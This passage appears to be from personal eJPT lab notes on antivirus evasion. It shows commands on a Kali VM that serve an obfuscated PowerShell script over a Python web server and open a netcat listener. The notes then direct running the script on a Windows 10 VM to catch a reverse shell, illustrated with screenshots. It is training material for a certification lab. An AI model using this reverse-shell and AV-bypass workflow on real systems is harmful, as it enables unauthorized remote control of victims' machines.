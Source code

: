 ```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano obfuscated.ps1
```

```bash
# Attacker VM another terminal
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

nc -nvlp 4242
```

- Run the `obfuscated.ps1` file on the Win10 VM

![](.gitbook/assets/image-20230424174516223.png)

- Back on the Kali VM check the PowerShell reverse shell 

![PowerShell reverse shell](.gitbook/assets/image-20230424174638022.png)

------

